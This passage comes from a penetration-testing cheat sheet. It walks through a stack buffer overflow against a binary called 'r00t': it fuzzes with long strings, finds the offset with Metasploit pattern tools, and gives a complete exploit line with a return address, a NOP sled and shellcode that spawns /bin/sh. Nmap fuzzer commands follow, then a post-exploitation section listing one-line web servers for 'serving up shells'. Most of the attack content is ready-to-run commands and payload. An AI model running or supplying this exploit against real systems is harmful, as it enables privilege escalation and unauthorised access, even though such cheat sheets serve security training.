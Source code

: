     -   Pass 1000 A’s as a parameter  
        ./r00t $(python -c 'print "A" \* 1000')

    -   Random Pattern Create  
        /usr/share/metasploit-framework/tools\# ruby pattern\_create.rb
        1000

    -   Determine Pattern offset  
        ruby pattern\_offset.rb 0x6a413969

    -   Pass shell with offset value  
        env - ./r00t $(python -c 'print "A"\*268 +
        "\\x80\\xfc\\xff\\xbf" + "\\x90"\*16 +
        "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"')  
        \# id

    -   From Fuzzing to Zero Day  
        https://blog.techorganic.com/2014/05/14/from-fuzzing-to-0-day/

-   Nmap Fuzzers:

    -   NMap Fuzzer List  
        [*https://nmap.org/nsedoc/categories/fuzzer.html*](https://nmap.org/nsedoc/categories/fuzzer.html)

    -   NMap HTTP Form Fuzzer  
        nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip

    -   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port =&gt; 80, :DocumentRoot =&gt; Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)
